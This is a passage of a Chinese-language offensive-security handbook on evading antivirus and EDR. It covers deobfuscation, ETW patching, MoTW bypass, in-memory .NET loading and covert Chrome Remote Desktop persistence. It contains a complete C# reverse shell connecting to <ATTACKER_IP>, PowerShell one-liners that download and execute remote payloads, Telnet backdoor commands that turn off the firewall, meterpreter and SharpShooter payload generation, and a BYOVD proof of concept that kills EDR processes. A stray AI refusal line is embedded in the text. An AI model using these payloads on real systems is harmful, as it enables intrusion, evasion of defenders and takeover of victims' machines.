1.  移除 Anti-tampering 保护——ConfuserEx 会加密每个 *method body*，并在 *module* static constructor（`<Module>.cctor`）中将其解密。它还会修改 PE checksum，因此任何改动都会导致二进制文件崩溃。使用 **AntiTamperKiller** 定位加密的 metadata tables、恢复 XOR keys，并重写干净的 assembly：
   ```bash
   # https://github.com/wwh1004/AntiTamperKiller
   python AntiTamperKiller.py Confused.exe Confused.clean.exe
   ```
   输出包含 6 个反篡改参数（`key0-key3`、`nameHash`、`internKey`），在构建自己的 unpacker 时可能会很有用。

2.  符号 / 控制流恢复 – 将 *干净* 文件交给 **de4dot-cex**（一个支持 ConfuserEx 的 de4dot 分支）。
   ```bash
   de4dot-cex -p crx Confused.clean.exe -o Confused.de4dot.exe
   ```
   标志：
     • `-p crx` – 选择 ConfuserEx 2 配置文件
     • de4dot 会撤销控制流平坦化，还原原始命名空间、类和变量名，并解密常量字符串。

3.  移除 Proxy-call – ConfuserEx 会用轻量级包装器（又称 *proxy calls*）替代直接方法调用，进一步破坏反编译。使用 **ProxyCall-Remover** 将其移除：
   ```bash
   ProxyCall-Remover.exe Confused.de4dot.exe Confused.fixed.exe
   ```
   完成此步骤后，你应该能看到常见的 .NET API，例如 `Convert.FromBase64String` 或 `AES.Create()`，而不是不透明的包装函数（`Class8.smethod_10`，……）。

4.  手动清理 – 在 dnSpy 中运行生成的二进制文件，搜索较大的 Base64 数据块或 `RijndaelManaged`/`TripleDESCryptoServiceProvider` 的用法，以定位*真正的* payload。恶意软件通常会将其存储为 TLV 编码的字节数组，并在 `<Module>.byte_0` 中初始化。

上述流程无需运行恶意样本即可还原执行流程——这在离线工作站上很有用。

> 🛈  ConfuserEx 会生成一个名为 `ConfusedByAttribute` 的自定义属性，可用作 IOC，以便自动对样本进行初步分类。

#### 单行命令
```bash
autotok.sh Confused.exe  # wrapper that performs the 3 steps above sequentially
```

---

- [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**：C# 混淆器**
- [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator)：该项目旨在提供一个开源的 [LLVM](http://www.llvm.org/) 编译套件分支，通过 [代码混淆](<http://en.wikipedia.org/wiki/Obfuscation_(software)>) 和防篡改来增强软件安全性。
- [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator)：ADVobfuscator 展示了如何使用 `C++11/14` 语言在编译时生成混淆代码，无需使用任何外部工具，也无需修改编译器。
- [**obfy**](https://github.com/fritzone/obfy)：添加一层由 C++ 模板元编程框架生成的混淆操作，让想要破解应用程序的人更难得手。
- [**Alcatraz**](https://github.com/weak1337/Alcatraz)**：**Alcatraz 是一个 x64 二进制混淆器，能够混淆多种不同的 PE 文件，包括：.exe、.dll、.sys
- [**metame**](https://github.com/a0rtega/metame)：Metame 是一个适用于任意可执行文件的简单变形代码引擎。
- [**ropfuscator**](https://github.com/ropfuscator/ropfuscator)：ROPfuscator 是一个面向 LLVM 支持语言的细粒度代码混淆框架，使用 ROP（面向返回的编程）。ROPfuscator 在汇编代码级别混淆程序，将常规指令转换为 ROP 链，从而打破我们对正常控制流的固有认知。
- [**Nimcrypt**](https://github.com/icyguider/nimcrypt)：Nimcrypt 是一个用 Nim 编写的 .NET PE Crypter
- [**inceptor**](https://github.com/klezVirus/inceptor)**：**Inceptor 能够将现有的 EXE/DLL 转换为 shellcode，然后加载它们

### LLVM 编译器辅助的逐函数自掩蔽

修改后的 LLVM X86 后端可以让选定的函数在非活动期间始终保持 XOR 掩蔽，而不是只在 implant 休眠时掩蔽整个 implant。Function Peekaboo PoC 会选取反混淆名称中包含 `REG_` 的函数，在最终机器码周围插入位置无关的入口/出口桩，并在 `.text` 中生成一个共享的掩蔽处理程序；源代码级别的签名和 Windows x64 调用约定均保持不变。<sup>[[38]](#references)[[39]](#references)</sup>

#### 后端控制流转换

该转换应在指令选择和优化之后进行，因为它必须覆盖**每个生成的返回指令**，并且需要知道确切的 x86 布局。一个预输出的 `MachineFunctionPass` 会找到最后一个 `MachineInstr::isReturn()`，将其删除，使最终路径落入追加的尾声代码；并将之前的返回指令替换为 `JMP_1 handler`。保留每个返回指令之前由编译器生成的栈/帧清理代码；只重定向返回指令本身。<sup>[[38]](#references)[[39]](#references)</sup>

`X86AsmPrinter::emitFunctionBodyStart()` 和 `X86AsmPrinter::emitFunctionBodyEnd()` 用于输出每个函数的桩，而 `emitEndOfAsmFile()` 用于输出处理程序。在不同输出阶段共享的符号可让序言分支跳转到稍后输出的尾声；对于手动输出的近距离 `je`，写入 `0F 84`，后跟四字节 MC 表达式 `target - address_after_je`。对处理程序的调用和跳转则可以输出为 `MCInst` 对象（`CALL64pcrel32` 和 `JMP_1`）。如果未选中某个函数且没有做任何更改，pass 必须返回 `false`；PoC 在这种情况下错误地返回了 `true`。<sup>[[38]](#references)[[39]](#references)</sup>

#### 元数据与 CRT 前初始化

PoC 在 `.funcmeta` 中放置一个 XOR 密钥和 16 字节记录，其中包含经加载器重定位的函数指针以及运行时长度。尽管 C 字段是 `uint32_t`，处理程序却会访问记录偏移 `+8` 处的 QWORD，将长度及其填充一并读取，并以 `0x10` 为步长遍历记录。PE 节名称最多只有八个字节，因此运行时查找看到的是 `.funcmet`。外部 patcher 会添加一个可执行的 `.stub`，在其中保存旧入口点 RVA，并重定向 `AddressOfEntryPoint`；PIC 桩通过 `gs:[0x60]` → `[PEB+0x10]` 获取映像基址，遍历 PE32+ 导入表以解析一个已导入的 `VirtualProtect`，并在 CRT 运行前执行。<sup>[[38]](#references)[[39]](#references)</sup>

初始化会在 `gs:[0xE8]` 中设置一个哨兵值，并调用每个元数据函数。始终可读的序言会在 `gs:[0xF0]` 中记录函数起始地址，检测哨兵值，并跳过仍未加密的函数体。随后尾声使用 `call handler`；处理程序保存 13 个寄存器（`0x68` 字节）后，`[rsp+0x68]` 处的返回地址就是转换后函数的结束地址，因此可以将 `end - start` 写入其元数据记录。所有函数体都被掩蔽后，桩会清除哨兵值，并跳转到 `ImageBase + original_entry_point_RVA`。<sup>[[38]](#references)[[39]](#references)</sup>

正常调用期间，序言会调用同一个对称处理程序来解码函数体。最终路径会落入追加的尾声代码，而之前的每个返回指令都会直接跳转到共享处理程序。正常尾声也使用 `jmp handler` 而非 `call`，因此重新掩蔽后，处理程序的 `ret` 会取用原调用者的返回地址，并保留 `RAX` 中的函数返回值。<sup>[[38]](#references)[[39]](#references)</sup>

#### 掩蔽原语与分析指标

处理程序会查找当前记录，跳过固定的可见序言（本构建中为 `0x46` 字节），将其余部分的保护属性更改为 `PAGE_EXECUTE_READWRITE`，逐字节与密钥的低字节进行 XOR，然后将保护属性设为 `PAGE_EXECUTE_READ`。因此，同一个循环会在进入时解码，并在每次正常退出时编码。<sup>[[38]](#references)[[39]](#references)</sup>

这种设计的高置信度指标包括：<sup>[[38]](#references)[[39]](#references)</sup>

- 入口点位于可执行的 `.stub` 中，且 `.funcmet` 节保存了密钥以及经重定位的 `.text` 指针；
- CRT 前对 PEB、导入表和节表进行解析，随后通过每个元数据指针进行调用；
- 相同的 `call`/`pop` PIC 序言，以及许多被重定向到同一处理程序的返回位置；
- 对 `gs:[0xE8]`、`gs:[0xF0]` 和 `gs:[0xF8]` 的写入，随后是反复的 `VirtualProtect` 属性切换，以及对映像支持的可执行页面进行逐字节 XOR 写入。

这是对抗内存扫描器的规避手段，并非密码学保护：被 patch 的文件仍包含原始的明文函数体，调试器也可以在 `VirtualProtect` 或 XOR 循环处设置断点并转储正在运行的函数。单字节 XOR、可读的元数据和固定的 `0x46` 边界也使离线还原变得简单。<sup>[[38]](#references)[[39]](#references)</sup>

> [!WARNING]
> PoC 的 TEB 槽是线程本地的，但被修改的代码页是进程范围内共享的。因此，并发或递归进入可能会在另一个调用正在执行时再次切换指令状态；异常和非局部退出也可能绕过重新掩蔽。健壮的实现必须同步状态切换，恢复通过 `lpflOldProtect` 返回的实际保护属性，避免硬编码桩长度，审查 `call` 和 `jmp` 路径是否都符合 x64 栈对齐要求，并在重写可执行字节后调用 `FlushInstructionCache`。Microsoft 明确指出，修改可执行代码时，调用方有责任确保指令缓存一致性。<sup>[[38]](#references)[[39]](#references)[[40]](#references)</sup>

## SmartScreen 与 MoTW

你可能在从互联网下载并运行某些可执行文件时见过这个屏幕。

Microsoft Defender SmartScreen 是一种安全机制，旨在保护最终用户，避免其运行可能有害的应用程序。

<figure><figcaption></figcaption></figure>

SmartScreen 主要采用基于信誉的方式，也就是说，不常被下载的应用程序会触发 SmartScreen，从而向最终用户发出警告并阻止其运行文件（不过，用户仍然可以点击“更多信息” -> “仍要运行”来运行该文件）。

**MoTW**（Mark of The Web）是一种 [NTFS 备用数据流](<https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_(ADS)>)，名称为 Zone.Identifier。它会在从互联网下载文件时自动创建，并包含文件的下载来源 URL。

<figure><figcaption><p>检查从互联网下载的文件的 Zone.Identifier ADS。</p></figcaption></figure>

> [!TIP]
> 请注意，使用**可信**签名证书签名的可执行文件**不会触发 SmartScreen**。

防止 payload 被附加 Mark of The Web 的一种非常有效的方法，是将其打包到 ISO 等容器中。这是因为 Mark-of-the-Web (MOTW)**无法**应用于**非 NTFS** 卷。

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) 是一个将 payload 打包到输出容器中以规避 Mark-of-the-Web 的工具。

使用示例：

```bash
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

这是一个使用 [PackMyPayload](https://github.com/mgeeky/PackMyPayload/) 将 payload 打包到 ISO 文件中以绕过 SmartScreen 的演示

<figure><figcaption></figcaption></figure>

## ETW

Event Tracing for Windows (ETW) 是 Windows 中强大的日志记录机制，可让应用程序和系统组件**记录事件**。不过，安全产品也可以利用它来监控并检测恶意活动。

与禁用（绕过）AMSI 类似，也可以让用户空间进程的 **`EtwEventWrite`** 函数立即返回，而不记录任何事件。具体做法是在内存中修补该函数，使其立即返回，从而有效禁用该进程的 ETW 日志记录。

更多信息请参阅 **[https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/) 和 [https://github.com/repnz/etw-providers-docs/](https://github.com/repnz/etw-providers-docs/)**。<sup>[[33]](#references)[[34]](#references)</sup>


## C# Assembly Reflection

将 C# 二进制文件加载到内存中的方法早已为人所知，它至今仍是运行 post-exploitation 工具且不被 AV 发现的绝佳方式。

由于 payload 会直接加载到内存中，不会触及磁盘，因此我们只需考虑为整个进程修补 AMSI。

大多数 C2 框架（sliver、Covenant、metasploit、CobaltStrike、Havoc 等）都已支持直接在内存中执行 C# assemblies，但实现方式有多种：

- **Fork\&Run**

这种方式会**启动一个新的牺牲进程**，将 post-exploitation 恶意代码注入该进程并执行，完成后再终止该进程。此方法既有优点，也有缺点。Fork and run 方法的优点是，执行发生在 Beacon implant 进程**之外**。这意味着，如果 post-exploitation 操作出现问题或被发现，我们的 **implant 存活下来的可能性会大得多**。缺点是，被 **行为检测**发现的可能性**更高**。

<figure><figcaption></figcaption></figure>

- **Inline**

这种方式是将 post-exploitation 恶意代码注入**自身进程**。这样可以避免创建新进程并被 AV 扫描，但缺点是，如果 payload 执行出错，**丢失 beacon 的可能性会大得多**，因为它可能会崩溃。

<figure><figcaption></figcaption></figure>

> [!TIP]
> 如果想进一步了解 C# Assembly 加载，请参阅这篇文章 [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) 以及他们的 InlineExecute-Assembly BOF（[https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly)）

你也可以**从 PowerShell** 加载 C# Assemblies，参阅 [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) 和 [S3cur3th1sSh1t 的视频](https://www.youtube.com/watch?v=oe11Q-3Akuk)。

## .NET 工具的 NativeAOT WebAssembly 重新打包（WasmForge）

常规的 `execute-assembly` 技术会保留可识别的 MSIL，并最终初始化 CLR。**WasmForge** 则改变了执行环境：它将 C# 项目迁移到实验性的 NativeAOT-LLVM WASI 目标，将其提前编译为 WebAssembly，并将该模块嵌入基于 Wazero 的 Windows PE 宿主中。生成的进程不需要目标系统上的 CLR、JIT 或 `dotnet` 宿主，因此，仅依据托管程序集名称、CLR 加载、AMSI 或 .NET ETW 制定的规则将无法直接观察到它。这是一种规避/打包技术，而非绕过权限边界——guest 保留原始工具的权限和可观察到的 OS 行为。<sup>[[44]](#references)[[45]](#references)</sup>

### 构建 C# 项目

推荐使用项目的 Docker 环境进行构建，因为其中包含 .NET 10 SDK、NativeAOT-LLVM workload、WASI SDK 24.0、linker 和签名依赖项。系统会自动检测 `.csproj`；一键构建会完成迁移、兼容性修补、WASM 编译、PE 伪造和签名。<sup>[[45]](#references)</sup>

```bash
# From the WasmForge repository
make docker-build
make docker-run DOCKER_SRC=/path/to/Seatbelt DOCKER_PROJECT=seatbelt

# Equivalent direct build when all prerequisites are installed
GOOS=windows GOARCH=amd64 ./wasmforge build --win32-apis \
  -o seatbelt.exe /path/to/Seatbelt/Seatbelt/
```

对于故障排查或审查生成的代码，请将流程拆分为 `wasmforge dotnet-migrate <dir>`、`wasmforge dotnet-patch <dir>`、`dotnet publish -c Release -r wasi-wasm`，以及最后的 `wasmforge build --wasm <module> --nativeaot --win32-apis -o <output.exe>`。构建映像还会使用 `wasm-component-ld` 包装器，以避免 WASI Preview 2 组件编码，并生成嵌入式运行时所需的普通模块。<sup>[[44]](#references)[[45]](#references)</sup>

### 将 wasm32 C# 桥接到 x64 Win32

这不是透明的重新编译。NativeAOT-WASI 缺少或更改了面向 Windows 的 BCL 功能，而且 wasm32 guest 通常分配四字节的指针槽，而 x64 API 可能返回八字节指针。WasmForge 通过以下生成层解决这两个问题：<sup>[[44]](#references)</sup>

1. 源代码修补器修正 AOT 特有的语义差异，并将不受支持的注册表、管道、WMI、身份、目录服务、文件版本、LSA 及类似调用重定向到 `Wf*` helpers。
2. P/Invoke 扫描器生成 NativeAOT `DirectPInvoke` 映射，使 `[DllImport]` 调用绑定到已链接的 C 桥接符号，而不是在 guest 内动态加载声明的 DLL。
3. 绑定到主机的指针在 C# 中使用 `ulong`，在 C 中使用 `uint64_t`。通用分发器将调用转发给主机的 Win32 处理程序；`out8_mask` 标记真正的八字节输出槽，其高位部分必须保留。未标记的 wasm32 形状输出则使用快照/恢复保护，避免 x64 写入破坏相邻的四个字节。
4. 专用主机桥接器处理不适合通用 syscall 分发的操作，例如 LSA 票据缓存访问、具有结构化结果的 Kerberos/BCrypt 操作、TCP KDC 流量以及 LDAP 查询。

例如，`version.dll!VerQueryValueW` 的包装器会传递四个主机地址，并设置位 2 和位 3（`0xC`），因为值指针和长度是八字节输出槽。包装器本身保持通用，并将 DLL 名称、导出名称、参数和掩码传递给 `wf_call_v2`；主机负责指针转换并调用原生 API。<sup>[[44]](#references)</sup>

```c
uint32_t version_VerQueryValueW_v2(uint64_t block, uint64_t subblock,
    uint64_t value_out, uint64_t length_out) {
    return (uint32_t)wf_call_v2("version.dll", "VerQueryValueW", 4,
        0xC, block, subblock, value_out, length_out);
}
```

### 局限性与检测切入点

反射密集型代码、动态程序集加载、任意 native 回调，以及返回到 WASM 内存中的复杂 x64 结构，仍可能需要针对每种工具打补丁，或者直接无法运行。通用 WASI Preview 2 sockets 也可能调用 no-op stubs，因此受支持的工具会使用特定协议的 host shims。请将每条命令与 native build 的结果进行比对验证，而不要假设功能完全一致。<sup>[[44]](#references)[[45]](#references)</sup>

这种技术改变的是遥测特征，而不是让 payload 隐形。检测可以转而关注包含或生成 WASM module 的 PE、类似 Wazero 的 runtime 行为、异常的 host/guest 内存分配与复制、通用的直接 Win32 调用、签名和 PE 资源异常，以及由此产生的 API 调用和网络流量。因此，不应将缺少 CLR 加载、AMSI 或 .NET ETW 事件视为进程良性的证据。<sup>[[44]](#references)</sup>

## 使用其他编程语言

正如 [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins) 中所提出的，可以通过让被攻陷的机器访问**攻击者控制的 SMB share 上安装的解释器环境**，使用其他语言执行恶意代码。

允许访问 SMB share 上的解释器二进制文件和环境后，你就可以在被攻陷机器的**内存中执行这些语言编写的任意代码**。

该 repo 指出：Defender 仍会扫描脚本，但通过使用 Go、Java、PHP 等语言，我们可以**更灵活地绕过静态特征码**。使用这些语言编写随机的、未混淆的反向 shell 脚本进行测试，结果证明这种方法有效。

## 通过 WebAssembly 重新托管来规避静态分析

<a id="bridging-linear-memory-to-native-apis"></a>
<a id="per-build-wasm-vm-polymorphism"></a>
<a id="camouflaging-the-outer-go-executable"></a>

{{#ref}}
virtualized-payload-execution.md#webassembly-re-hosting-for-static-analysis-evasion
{{#endref}}

## TokenStomping

Token stomping 会操纵 EDR 或 AV 等安全产品的访问令牌。降低令牌的权限可以让进程继续运行，同时阻止其执行特权检查或修复操作。

为防止这种情况，Windows 可以**阻止外部进程**获取安全进程令牌的句柄。

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## 使用可信软件

### Chrome Remote Desktop

如[**这篇博客文章**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)所述，只需在受害者的 PC 上部署 Chrome Remote Desktop，就可以利用它接管机器并维持持久性：<sup>[[35]](#references)</sup>
1. 从 https://remotedesktop.google.com/ 下载，点击“Set up via SSH”，然后点击 Windows 的 MSI 文件进行下载。
2. 在受害者机器上静默运行安装程序（需要管理员权限）：`msiexec /i chromeremotedesktophost.msi /qn`
3. 返回 Chrome Remote Desktop 页面并点击“下一步”。向导随后会要求你进行授权；点击“Authorize”按钮继续。
4. 根据需要调整后，执行提供的命令：`"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111`（`--pin` 参数无需使用 GUI 即可设置 PIN）。
 

## 高级规避

{{#ref}}
virtualized-payload-execution.md
{{#endref}}

规避是一个非常复杂的话题，有时你必须考虑同一系统中许多不同来源的遥测数据，因此在成熟的环境中，几乎不可能做到完全不被发现。

你所面对的每个环境都有各自的优势和弱点。

我强烈建议你观看 [@ATTL4S](https://twitter.com/DaniLJ94) 的这场演讲，以初步了解更高级的规避技术。


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

这也是 [@mariuszbit](https://twitter.com/mariuszbit) 关于纵深规避的另一场精彩演讲。


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **旧技术**

### **检查 Defender 将哪些部分判定为恶意**

你可以使用 [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck)，它会**逐步移除二进制文件的部分内容**，直到**找出 Defender 判定为恶意的部分**，并将其拆分出来。\
另一个实现**相同功能的工具是** [**avred**](https://github.com/dobin/avred)，它提供了公开的 Web 服务：[**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

### **Telnet Server**

在 Windows 10 之前，所有 Windows 系统都自带一个可供安装的 **Telnet server**（需要管理员权限），安装方式如下：

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

使其在系统启动时**启动**，并立即**运行**：

```bash
sc config TlntSVR start= auto obj= localsystem
```

**更改 telnet 端口**（隐蔽）并禁用防火墙：

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

抱歉，我不能翻译这段用于在受害主机上隐蔽部署远程访问、建立反向连接并规避提示的操作说明。我可以帮你翻译其中关于合法远程管理或防御检测的内容。

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

在 GreatSCT 中：

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

现在使用 `msfconsole -r file.rc` **启动 lister**，并使用以下命令**执行** **xml payload**：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**当前的 defender 会很快终止进程。**

### 编译我们自己的 reverse shell

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### 第一个 C# Revershell

使用以下命令编译：

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

与以下内容搭配使用：

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### 使用 C# 编译器

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

自动下载并执行：

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

C# 混淆器列表：[https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### 使用 python 构建 injector 的示例：

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### 其他工具

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### 更多

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – 从内核空间终止 AV/EDR

Storm-2603 使用了一个名为 **Antivirus Terminator** 的小型控制台实用程序，在投放勒索软件前禁用终端保护。该工具自带**易受攻击但已*签名*的驱动程序**，并滥用它执行特权内核操作，连 Protected-Process-Light (PPL) AV 服务也无法阻止。<sup>[[12]](#references)</sup>

要点
1. **已签名的驱动程序**：写入磁盘的文件名为 `ServiceMouse.sys`，但该二进制文件实际上是 Antiy Labs“System In-Depth Analysis Toolkit”中的合法签名驱动程序 `AToolsKrnl64.sys`。由于该驱动程序带有有效的 Microsoft 签名，即使启用了 Driver-Signature-Enforcement (DSE)，它仍会加载。
2. **服务安装**：
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   第一行将驱动注册为 **kernel service**，第二行启动它，使 `\\.\ServiceMouse` 可从用户态访问。
3. **驱动公开的 IOCTL**
   | IOCTL code | 能力                                      |
   |-----------:|-----------------------------------------|
   | `0x99000050` | 根据 PID 终止任意进程（用于结束 Defender/EDR 服务） |
   | `0x990000D0` | 删除磁盘上的任意文件 |
   | `0x990001D0` | 卸载驱动并移除服务 |

   最小 C proof-of-concept：
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **为何有效**：BYOVD 完全绕过用户模式防护；在内核中执行的代码可以打开*受保护的*进程、终止它们，或篡改内核对象，不受 PPL/PP、ELAM 或其他加固功能的限制。

检测 / 缓解
• 启用 Microsoft 的易受攻击驱动程序阻止列表（`HVCI`、`Smart App Control`），以阻止 Windows 加载 `AToolsKrnl64.sys`。
• 监控新建的*内核*服务；如果驱动程序从所有用户均可写的目录加载，或不在允许列表中，则发出警报。
